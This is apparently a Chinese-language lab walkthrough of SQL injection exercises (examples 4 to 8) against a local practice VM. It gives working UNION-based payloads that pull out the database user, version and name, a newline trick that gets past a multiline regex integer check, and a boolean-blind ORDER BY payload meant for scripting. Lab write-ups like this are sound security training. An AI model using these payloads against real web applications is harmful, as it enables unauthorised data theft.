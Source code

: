 换整型注入了。。一样。。
Payload:
```
http://192.168.56.102/sqli/example4.php?id=2%20union%20select%20user(),version(),database(),4,5%23
```

## Example 5

上题的payload还是可以用，这题的过滤是要求0-9开头
```
http://192.168.56.102/sqli/example5.php?id=2%20union%20select%20user(),version(),database(),5,6%23
```

## Example 6

猜到了，这题是要求0-9结尾。。一样简单
```
http://192.168.56.102/sqli/example6.php?id=2%20union%20select%20user(),version(),database(),4,5%233
```

## Example 7

这题看了源码。
Payload:
```
http://192.168.56.102/sqli/example7.php?id=2%0aunion%20select%20version(),user(),database(),4,5%23
```

这题需要用%0a来bypass，因为。。看源码：  
```
if (!preg_match('/^-?[0-9]+$/m', $_GET["id"])) {
		die("ERROR INTEGER REQUIRED");	
	}
```

主要是最后的/m

> m (PCRE_MULTILINE)
> 默认情况下，PCRE 认为目标字符串是由单行字符组成的(然而实际上它可能会包含多行)， "行首"元字符 (^) 仅匹配字符串的开始位置， 而"行末"元字符 (\$) 仅匹配字符串末尾， 或者最后的换行符(除非设置了 D 修饰符)。这个行为和 perl 相同。当这个修饰符设置之后，“行首”和“行末”就会匹配目标字符串中任意换行符之前或之后，另外， 还分别匹配目标字符串的最开始和最末尾位置。这等同于 perl 的 /m 修饰符。如果目标字符串 中没有 "\n" 字符，或者模式中没有出现 ^ 或 \$，设置这个修饰符不产生任何影响。


意思就是，加了一个\n后，就会有两行，只要其中一行满足正则匹配就会返回true

## Example 8

很明显，是在`order by`的位置注，不过就不能使用union了，所以用布尔盲注。。
```
http://192.168.56.102/sqli/example8.php?order=id`,(select%20ascii(substr(user(), [var1],1))=[var2])%23
```

写个脚本跑这个payload就好了，有两个变量var1和var2，var1是int型表示字符串的几var1位，var2就是跑ascii码，如果页面有显示内容，则表示user()第var1字符的ascii码为var2。
